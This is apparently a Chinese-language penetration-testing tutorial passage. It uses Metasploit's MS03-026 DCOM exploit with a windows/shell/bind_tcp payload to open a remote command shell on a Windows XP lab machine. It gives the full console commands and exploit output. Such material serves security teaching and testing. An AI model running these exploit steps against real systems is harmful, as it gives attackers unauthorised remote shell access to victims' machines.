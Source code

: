 ## 怎么做。。。

要将外壳绑定到目标，请执行以下步骤：

1.  我们将首先选择针对目标机器的 `dcom`攻击。我们将设置各种利用漏洞参数，然后选择有效负载：

    ```
    msf > use exploit/windows/dcerpc/ms03_026_dcom
    msf exploit(ms03_026_dcom) > show options
    Module options (exploit/windows/dcerpc/ms03_026_dcom):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 135 yes The target port
    Exploit target:
    Id Name
    -- ----
    0 Windows NT SP3-6a/2000/XP/2003 Universal
    msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102 
    ```

2.  现在我们的漏洞已经设置好，我们现在将转移到有效负载。使用 `show payloads`命令将列出所有可用的有效载荷。现在，我们将使用将在目标机器上的端口 `4444`（默认情况下）上打开 TCP 连接的 `windows/shell/bind_tcp`有效负载，并向我们提供一个命令 shell：

    ```
    msf exploit(ms03_026_dcom) > set PAYLOAD windows/shell/bind_tcp
    PAYLOAD => windows/shell/bind_tcp 
    ```

3.  现在：使用 `show options`命令，我们可以设置 `RHOST`等其他相关参数，并更改默认端口。设置参数后，我们将执行漏洞利用。让我们看看执行的输出是什么：

    ```
    msf exploit(ms03_026_dcom) > exploit
    [*] Started reverse handler on 192.168.56.101:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP - Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.56.102
    [*] Command shell session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1052) at 2011-10-31 01:55:42 +0530
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    C:\WINDOWS\system32> 
    ```

该漏洞已成功执行，我们在 `msfconsole`中启动了一个命令提示符。现在可以使用此会话来获得对目标计算机的完全远程访问。我们可以随时使用 `exit`命令退出此会话。

您现在可能已经意识到 Metasploit 中有效负载的威力。强烈建议您尝试各种可用的有效负载，以了解其功能。

## 它是如何工作的。。。

`dcom`漏洞利用的工作原理与上一个配方中的说明相同。为了理解 `bind_tcp`的工作原理，我们需要等待一段时间，因为它涉及一些概念，我们将在本书后面的章节中讨论这些概念。尽管如此，您仍然可以通过浏览 `/pentest/exploits/framework3/modules/payloads/stagers/windows/bind_tcp.rb`来查看有效负载 ruby 代码。

